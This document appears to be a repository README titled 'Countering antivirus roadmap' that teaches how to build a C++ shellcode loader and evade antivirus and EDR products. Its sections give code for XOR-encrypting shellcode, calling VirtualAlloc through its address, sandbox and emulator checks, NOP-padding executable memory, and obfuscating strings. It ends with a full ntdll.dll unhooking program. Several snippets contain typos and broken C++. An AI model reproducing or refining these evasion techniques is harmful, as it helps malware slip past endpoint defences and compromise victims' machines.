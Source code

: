 # Countering antivirus roadmap

Below I will outline several ways to write a shellcode loader in memory and how to hide it from antivirus on C++.

1. [Shellcode encryption](#1)
2. [Using functions via address](#2)
3. [Result processing Windows API](#3)
4. [Сhecking the process name](#4)
5. [Сhecking mutex before launching](#5)
6. [Allocating a large amount of memory for shellcode](#6)
7. [Obfuscate strings](#7)
8. [DLL Unhooking](#8)

## <a name="1">Shellcode encryption </a>
The simplest and most important way to hide the load is shellcode encryption , this will help bypass static analysis of your file.
You can use both simple xor and more complex encryption methods such as rc4 , etc .

for example:

```
  const char key[]="somekey";
  const char shellcode[]="some shellcode";
  
  char coded[sizeof(shellcode)];
  
  for (int i=0,j=0; i<sizeof(shellcode); i++,j++){
    if (!(j<sizeof(key))) {
    j=0;
    }
    coded[i] = shellcode[i] ^ key[j];
  }
```

## <a name="2">Using functions via address</a>

You can use instead of a direct function call , a call through the address of this function in memory

for example:
```
  typedef LPVOID(__cdecl *MPROC)(LPVOID,SIZE_T,DWORD,DWORD;
  
  MPROC Alloc = (MPROC)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")),"VirtualAlloc");
  char *ex = (char*)Alloc(NULL,sizeof(shellcode),MEM_COMMIT,PAGE_EXECUTE-READWRITE);
```

## <a name="3">Result processing Windows API</a>

The antivirus emulator may not handle all Windows API functions and returns by default Null

for example:
```
  LPVOID res = NULL;
  res = VirtualAllocExNuma(GetCurrentProcess(), NULL, 100, MEM_REVERSE | MEM_COMMIT, PAGE_EXECUTE_READWRITE, 0);
  
  if (res != NULL )
  {
    //exec shellcode
  }
  return 0;
```
## <a name="4">Сhecking the process name</a>

Antivirus during the binary file check can run it not with the original name, to bypass dynamic checking, you can check the name of the file being run.

for example:
```
 int main ( int argc, char* argv[])
 {
  if (argv[0] == "my_name.exe")
  {
    //exec shellcode
  } 
  return 0;
 } 
```

## <a name="5">Сhecking mutex before launching</a>

You can start the program execution process only if a certain mutex is found in the system. If you try to create an existing mutex, the process throws an error.

for example:
```
 HANDLE mutex;
 mutex = CreateMutex( NULL, TRUE, "MY_MUTEX");
 
 if ( GetLastError() == ERROR_ALREADY_EXIST );
 {
  // exec shellcode
 }
 esle 
 {
  startExe("my_proc.exe");
  Sleep(1000);
 }
 return 0;
```

## <a name="6">Allocating a large amount of memory for shellcode</a>

With dynamic program analysis, antiviruses analyze the allocated memory, but they can analyze a certain amount of memory. you can allocate more memory than is necessary to write the silk code and write the first part, which will be analyzed by antivir with empty bytes.

for example:
```
 char *ex = VirtualAlloc(NULL, sizeof(shellcode)*2, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 char *ex2 = ex + sizeof(shellcode);
 memcpy(ex2, shellcode, sizeof(shellcode));
 
 for( int i=0; i<=sizeof(shellcode)-1; i++)
 {
  ex[i] = 0x90;
 }
 
 ((void(*)())ex)();
```

## <a name="7">Obfuscate strings</a>

When plain text string literals are used in C++ programs, they will be compiled as-is into the resultant binary. This causes them to be incredibly easy to find. One can simply open up the binary file in a text editor to see all of the embedded string literals in plain view. A special utility called strings exists which can be used to search binary files for plain text strings.

You can use special strings obfuscators for example https://github.com/adamyaxley/Obfuscate

## <a name="8">DLL Unhooking</a>

It's possible to completely unhook any given DLL loaded in memory, by reading the .text section of ntdll.dll from disk and putting it on top of the .text section of the ntdll.dll that is mapped in memory. This may help in evading some EDR solutions that rely on userland API hooking.

for example:
```
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>
#include <psapi.h>

int main()
{
	HANDLE process = GetCurrentProcess();
	MODULEINFO mi = {};
	HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
	
	GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
	LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
	HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
	PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

	for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
		
		if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
		}
	}
	
	CloseHandle(process);
	CloseHandle(ntdllFile);
	CloseHandle(ntdllMapping);
	FreeLibrary(ntdllModule);
	
	return 0;
}
```
